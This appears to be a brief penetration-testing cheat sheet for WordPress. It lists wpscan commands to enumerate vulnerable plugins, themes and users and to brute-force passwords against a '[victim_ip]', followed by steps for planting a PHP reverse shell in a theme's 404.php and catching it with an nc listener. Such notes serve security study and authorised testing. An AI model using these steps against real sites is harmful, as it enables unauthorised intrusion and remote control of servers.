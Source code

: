 ### wpscan 

#### Scan
- wpscan --url https://[target_ip]
#### Vulnerable Plugins
- wpscan --url http://[victim_ip] --enumerate vp
#### Vulnerable Themes
- wpscan --url http://[victim_ip] --enumerate vt
#### Enumerate Users
- wpscan -u http://[victim_ip] --enumerate u
#### Password Bruteforce
- wpscan -u http://[victim_ip] --wordlist file.txt threads 50

#### ReverseShell via thames

1)Log_in
2)Side menu
3)Appearance
  - Editor
  - 404.php
  - paste php reverse shell
4)run nc -lnvp [ip]

5)Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php


